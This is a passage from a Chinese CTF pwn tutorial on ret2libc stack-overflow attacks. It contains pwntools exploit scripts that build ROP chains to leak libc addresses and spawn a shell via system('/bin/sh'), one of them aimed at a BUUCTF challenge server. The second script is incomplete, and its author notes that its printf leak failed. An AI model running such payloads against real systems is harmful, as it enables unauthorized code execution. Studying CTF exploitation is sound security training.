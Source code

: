       payload = (b'a'*(0x50+8))+p64(ret_address)+p64(got)+p64(plt)+p64(main_address)
      p.sendline(payload)
      p.recvuntil(b'Ciphertext\n')
      p.recvuntil(b'\n')
      addr=u64(p.recv(6).ljust(0x8,b'\x00'))
      print(hex(addr))
      libc = LibcSearcher('puts',addr)
      libcbase = addr - libc.dump('puts')
      print(hex(libcbase))
      sys_addr = libcbase + libc.dump('system')
      sh_addr = libcbase + libc.dump('str_bin_sh')
      
      p.recv()
      p.sendline(b'1')
      p.recvuntil(b"encrypted\n")
      payload = b'a'*0x58+p64(ret_address)+p64(sh_addr)+p64(0x4006B9)+p64(sys_addr)
      p.sendline(payload)
      p.interactive()
      
      ``````

#### 2. printf函数(64位)：

1. 题目中之哦于printf函数输出，并由栈溢出漏洞。

##### 实例：

1. 题目地址：[BUUCTF在线评测 (buuoj.cn)](https://buuoj.cn/challenges#pwn2_sctf_2016)

2. main函数中只有一个栈溢出漏洞，并且程序只有一个pirntf函数回显，考虑使用printf函数来泄漏libc地址。

3. printf函数输出地址：需要传递两个参数， 格式化字符串 **%s的地址** ，待泄漏数据的地址 **got表地址**，由于是64为的程序，所以 **第一个参数** 传递给 **rdi寄存器** ， **第二个参数** 传递给 **rsi寄存器** ，使用ROPgadget在程序中查找相应指令的地址即可。

4. EXP，不知道为什么64位的程序，泄漏printf函数got表上的值时不能成功泄漏：

   ```python
   from pwn import *
   from LibcSearcher import *
   
   context(os='linux', arch='amd64', log_level='debug')
   
   p=remote("node5.buuoj.cn",27096)
   elf=ELF('./babyrop2')
   libc = ELF('./libc.so.6')
   
   fun_name = 'printf'
   got = elf.got['read']
   plt = elf.plt[fun_name]
   print(hex(got),hex(plt))
   
   main_addr = 0x400636
   pop_rdi_ret = 0x400733
   pop_rsi_r15_ret = 0x400731 
   ret_addr = 0x400734
   offset = 0x20+8
   s_addr = 0x400790
   
   p.recvuntil(b"What's your name? ")
   payload = b'a'*(offset)+p64(ret_addr)+p64(pop_rdi_ret)+p64(s_addr)+p64(pop_rsi_r15_ret)+p64(got)+p64(0x0)+p64(plt)+p64(main_addr)
   
   p.sendline(payload)
   
   addr = u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
   print(hex(addr))
   p.recv()
   
   ```